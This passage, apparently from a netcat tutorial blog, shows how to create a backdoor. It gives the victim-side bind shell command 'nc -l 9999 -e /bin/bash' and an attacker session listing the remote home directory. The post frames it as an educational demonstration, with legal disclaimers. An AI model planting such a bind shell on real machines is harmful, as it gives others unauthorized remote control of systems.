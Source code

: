 ![Image of Netcat Chat](/img/nc-chat.gif)

Pretty cool, right?

## Create a Backdoor
I will show this for demonstration purposes only. Please be aware that unauthorized use of this command could be considered criminal activity in your locale. 

In fact, this command no longer does anything with 'nc'. There are ways to do it, but you will have to find them somewhere else. Once again, this is intended only to show the capability.

With that out of the way, the `-e` flag makes something executable. A common way for malicious actors to gain access is to create such a backdoor on an open port and use that to execute scripts or otherwise manipulate the file system.

On the "victim" machine:
```
nc -l 9999 -e /bin/bash
```

On the "attacker" machine:
```
nc 192.168.1.10 9999
ls
Desktop
Documents
Downloads
Music 
Pictures
Public
Templates
Videos
firefox linuxhandbook.com
```
This enables the attacker to access your computer remotely from the command line. Once connected, I can run bash commands similarly to how I could if I was using the computer directly. 
